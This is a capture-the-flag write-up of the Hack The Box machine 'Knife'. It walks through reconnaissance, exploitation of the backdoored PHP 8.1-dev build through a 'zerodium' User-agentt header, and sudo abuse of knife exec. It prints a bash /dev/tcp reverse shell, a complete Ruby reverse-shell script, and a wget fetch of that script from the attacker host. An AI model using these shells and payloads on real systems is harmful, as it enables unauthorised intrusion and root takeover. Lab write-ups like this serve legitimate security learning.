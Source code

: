 # Knife 
#Linux #CTF #HTB 

OS: Linux 
IP : 10.10.10.242
Rank : Easy 

## setup 
```bash
echo "10.10.10.242 knifte.htb" >> /etc/hosts
```


## Recon 

Lets start firing up a nmap scan 
```bash
nmap -sV -sC  -o nmapscan knife.htb

Not shown: 998 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)  
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)  
|\_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)  
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
| http-methods:    
|\_  Supported Methods: GET HEAD POST OPTIONS  
|\_http-server-header: Apache/2.4.41 (Ubuntu)  
|\_http-title:  Emergent Medical Idea  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
```


We see a HTTP port is open, lets go to it. 

![[Pasted image 20210523053510.png]]

A very simple HTTP page, nothing is clickable, lets try different file type. 
We can see it uses PHP, time to emulate the site for sub directory

````bash
gobuster dir -u https://knife.htb -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -t 50 -k
````

Nothing of value here.. 

It time for the most powerful tool *google*  lets google the Apache version for vulnabilities. 
Going to apache site we learn of two vulnabilities that have been fixed in version *2.4.42*
[Sorce](https://httpd.apache.org/security/vulnerabilities_24.html)
One of them look interesting *CVE-2020-1934* We learn that the website must have the *mod\_proxy\_ftp* mod on the website to be vulnerable. 
Nothing of value here.

Fire-up burp and lets see what the response look like from there. 

![[Pasted image 20210523062802.png]]

we learn that is uses *php/8.1*, lets try google it for any information, after alot of googling I came across a post about a backdoor created by hacker by adding code to the source. 
[source](https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/)


We learn that we can send a request with *User-agentt* that start with *zerodium*  it will then execute every php code after the code word.  

![[Pasted image 20210523065714.png]]

Fire up a netcat listner 

```bash
nc -lvnp 4444
```

As you can see we are able to execute code on the machine and get it to fire up a netcat to our machine. lets create a backdoor using netcat, insert your IP. 
```bash
'bash -c "bash -i >& /dev/tcp/10.10.14.19/4444 0>&1"'
```

And we got user access, let grap the flag

```bash
cat /home/james/user.txt
```

## Privilege escalation

Running *sudo -l* we learn that we are allow to execute knife as admin, which a tool for manage chef instance. 

[documentation](https://docs.chef.io/workstation/knife/)

By using *knife exec* we are allow to execute ruby scripts and it our case ruby code as root. 
lets create a small script which read the flag. 
 
```bash
echo 'print File.read("/root/root.txt")' > test.rb
sudo knife exec test.rb
```

And we got root. 

Let for learning also get shell access as root. Replace RHOST with your ip. 

shell.rb
```ruby
#!/usr/bin/env ruby

require 'socket'

require 'open3'

#Set the Remote Host IP

RHOST \= "10.10.14.19"

#Set the Remote Host Port

PORT \= "5555"

#Tries to connect every 20 sec until it connects.

begin

sock \= TCPSocket.new "#{RHOST}", "#{PORT}"

sock.puts "We are connected!"

rescue

sleep 20

retry

end

#Runs the commands you type and sends you back the stdout and stderr.

begin

while line \= sock.gets

Open3.popen2e("#{line}") do | stdin, stdout\_and\_stderr |

IO.copy\_stream(stdout\_and\_stderr, sock)

end

end

rescue

retry

end
```

Fire up a python HTTP server on your local machine 
```bash 
python3 -m http.server
```

On the target machine download the file and execute it with knife. 

```bash
wget http://10.10.14.19:8000/shell.rb
sudo knife exec shell.rb
```

```bash
id   
uid=0(root) gid=0(root) groups=0(root)
```

And we also got shell as root.